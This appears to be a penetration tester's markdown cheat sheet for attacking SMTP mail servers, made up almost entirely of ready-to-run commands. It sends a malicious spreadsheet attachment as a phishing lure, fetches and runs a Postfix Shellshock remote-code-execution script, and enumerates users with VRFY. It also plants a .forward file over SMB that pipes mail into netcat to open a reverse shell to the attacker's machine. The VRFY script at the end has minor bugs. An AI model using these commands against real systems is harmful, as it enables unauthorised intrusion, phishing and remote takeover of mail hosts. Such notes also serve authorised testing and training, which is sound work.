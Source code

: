 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

#### send email with sendemail
```bash - kali
sendemail -f 'jonas@localhost' \
   -t 'mailadmin@localhost' \
   -s $TARGET:25 \
   -u 'Your spreadsheet' \
   -m 'Here is your requested spreadsheet' \
   -a bomb.ods
```

#### Postfix SMTP Linux Shellshock RCE - USERNAME NEEDED
```bash - kali
wget https://raw.githubusercontent.com/3mrgnc3/pentest_old/master/postfix-shellshock-nc.py
```

![[rlwrap]]

```bash - kali
python postfix-shellshock-nc.py $TARGET $USER $KALI 443
```

#### User enumeration tool
```bash - kali
smtp-user-enum -M VRFY -U /usr/share/metasploit-framework/data/wordlists/unix_users.txt -t $TARGET | grep exists | awk '{print $2}' > users
```

#### nmap
```bash - kali
nmap --script smtp-commands.nse -pT:25 $TARGET
```

#### Mail forward RCE
Found a .forward file in user's directory by SMB.

```bash - kali
echo "|nc $KALI 443 -e /bin/bash" > .forward
```

![[rlwrap]]

```bash - kali
smbclient \\\\$TARGET\\$SHARE -U "$USER%$PASWORD"
```

```bash - kali
put .forward
```

```bash - kali
exit
```

#### Send mail with netcat
```bash - kali
nc $TARGET 25
```

```bash - kali
HELO hacker
```

```bash - kali
mail from:HACKER@localhost
```
OR
```bash - kali
mail from:HACKER@example.org
```

```bash - kali
rcpt to:$USER@$TARGET
```

```bash - kali
DATA
```

Insert email body

```bash - kali
.
```

```bash - kali
QUIT
```


#### User verification script

```bash - kali
VRFY root
```

```bash - kali
VRFY idontexist
```

![[Pasted image 20220406195439.png]]

```bash - kali
#!/usr/bin/python3

import socket
import sys

if len(sys.argv) != 2:

	print("Usage: vrfy.py <username>")
	sys.exit(0)

# Create a Socket
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

# Connect to the Server
connect = s.connect(("$TARGET",25))

# Receive the banner
banner = s.recv(1024)
print(banner)

# VRFY a user
s.send('VRFY ' + sys.argv[1] + '\r\n')
result = s.recv(1024)
print(result)

# Close the socket
s.close
```